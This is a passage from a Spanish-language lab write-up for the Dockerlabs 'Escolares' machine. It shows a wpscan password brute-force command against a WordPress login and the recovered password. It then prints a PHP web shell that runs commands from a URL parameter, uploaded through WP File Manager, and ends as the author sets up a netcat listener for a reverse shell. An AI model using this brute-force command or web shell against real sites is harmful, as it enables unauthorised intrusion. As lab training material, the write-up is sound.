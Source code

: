 Ahora tenemos nuestro propio diccionario para hacer fuerza bruta a una posible contraseña de Luis.

- `wpscan --url http://172.18.0.2/wordpress/ -U luisillo -P ~/Desktop/Dockerlabs/Escolares/luis.txt --password-attack xmlrpc`

![[Pasted image 20240611214032.png]]

`wpscan` encontró la contraseña, "Luis1981", probémosla en el login de Wordpress.

![[Pasted image 20240611214336.png]]
![[Pasted image 20240611214617.png]]

Bien! Estamos dentro, el siguiente paso es conseguir una reverse shell, lo que mas llama la atención a primera vista una vez dentro de la página de administración es ese "WP File Manager", veamos qué es.

![[Pasted image 20240611214858.png]]

Pues efectivamente es un File Manager muy intuitivo a la vista. Veamos si podemos subir un archivo, en este caso intentaremos subir un archivo .php malicioso para ganar acceso remoto.

```php
<?php
if (isset($_GET['cmd'])) {
    $output = shell_exec($_GET['cmd']);
    
    echo "<pre>$output</pre>";
} else {
    echo "No command provided.";
}
?>
```

Si creamos el archivo malicioso en nuestro escritorio y lo arrastramos a File Manager, ya estará subido.

![[Pasted image 20240611215406.png]]

- Cuando entramos a la página nuestro archivo malicioso, nos pide un comando, pero debe ser ejecutado desde la URL con el parametro "cmd", por ejemplo http://escolares.dl/wordpress/shell.php?cmd=whoami
- 
![[Pasted image 20240611215539.png]]
![[Pasted image 20240611215713.png]]

Ya estaríamos ejecutando código en la maquina victima, ahora a conseguir la reverse shell.

Hacemos URL encode de nuestro código de reverse shell y nos ponemos a la escucha con `netcat` (yo uso el encoder de Burp Suite)

![[Pasted image 20240611231309.png]]
![[Pasted image 20240611231614.png]]
